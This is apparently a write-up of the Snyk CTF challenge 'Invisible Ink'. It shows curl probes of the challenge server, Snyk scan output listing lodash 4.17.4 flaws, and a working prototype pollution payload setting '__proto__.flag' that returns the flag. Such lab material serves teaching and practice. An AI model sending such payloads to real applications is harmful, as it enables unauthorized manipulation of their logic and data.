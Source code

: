 # Challenge: Invisible Ink

[Snyk CTF challenge](https://101.ctf-snyk.io/challenges#Invisible%20Ink-1)

## Target

http://invisible-ink.c.ctf-snyk.io/

Supplied files:
- index.js
- package.json

## Attempts

```
   18  curl http://invisible-ink.c.ctf-snyk.io/
```

- browse to link
  - `POST /echo`
  - `Content-Type: application/json`
  - body: `{"message": "ping"}`
  - response: `{"userIP": "127.0.0.1", "time": 1608203140926, "message": "ping", "flag": "disabled"}`

The `flag` property is interesting. Try to enable it.

```
   31  snyk auth $SNYK_AUTH_TOKEN
   25  snyk test package.json               # needs dependencies
   26  snyk test --file=package.json        # needs dependencies
```

Generate the full dependencies for the supplied `package.json` file. Then test that file with `snyk`

```
   63  npm install --package-lock-only
   64  snyk test --file=package-lock.json

Testing /workspace/snyk-ctf101-workshop...

Tested 51 dependencies for known issues, found 8 issues, 8 vulnerable paths.

Issues to fix by upgrading:

  Upgrade lodash@4.17.4 to lodash@4.17.21 to fix
  ✗ Regular Expression Denial of Service (ReDoS) [Medium Severity][https://security.snyk.io/vuln/SNYK-JS-LODASH-1018905] in lodash@4.17.4
    introduced by lodash@4.17.4
  ✗ Regular Expression Denial of Service (ReDoS) [Medium Severity][https://security.snyk.io/vuln/SNYK-JS-LODASH-73639] in lodash@4.17.4
    introduced by lodash@4.17.4
  ✗ Prototype Pollution [Medium Severity][https://security.snyk.io/vuln/npm:lodash:20180130] in lodash@4.17.4
    introduced by lodash@4.17.4
  ✗ Command Injection [High Severity][https://security.snyk.io/vuln/SNYK-JS-LODASH-1040724] in lodash@4.17.4
    introduced by lodash@4.17.4
  ✗ Prototype Pollution [High Severity][https://security.snyk.io/vuln/SNYK-JS-LODASH-567746] in lodash@4.17.4
    introduced by lodash@4.17.4
  ✗ Prototype Pollution [High Severity][https://security.snyk.io/vuln/SNYK-JS-LODASH-608086] in lodash@4.17.4
    introduced by lodash@4.17.4
  ✗ Prototype Pollution [High Severity][https://security.snyk.io/vuln/SNYK-JS-LODASH-450202] in lodash@4.17.4
    introduced by lodash@4.17.4
  ✗ Prototype Pollution [High Severity][https://security.snyk.io/vuln/SNYK-JS-LODASH-73638] in lodash@4.17.4
    introduced by lodash@4.17.4

Organization:      perry.branch
Package manager:   npm
Target file:       package-lock.json
Project name:      Try-Snyk
Open source:       no
Project path:      /workspace/snyk-ctf101-workshop
Licenses:          enabled
```

Exploit the Prototype Pollution using Property Injection

```
   72  curl -X POST http://invisible-ink.c.ctf-snyk.io/echo
   73  curl -H 'Content-Type: application/json' -X POST http://invisible-ink.c.ctf-snyk.io/echo
   74  curl -H 'Content-Type: application/json' -X POST http://invisible-ink.c.ctf-snyk.io/echo -d '{"message": "ping"}'

{"userID":"34.127.107.182, 34.111.128.148","time":1663190263065,"message":"ping","flag":"disabled"}

   88  curl -sSL -H 'Content-Type: application/json' -X POST http://invisible-ink.c.ctf-snyk.io/echo -d '{"message": "ping", "__proto__": {"flag": "true"}}'

{"userID":"34.127.107.182, 34.111.128.148","time":1663190508558,"message":"ping","flag":"SNYK{6a6a6fff87f3cfdca056a077804838d4e87f25f6a11e09627062c06f142b10dd}"}
```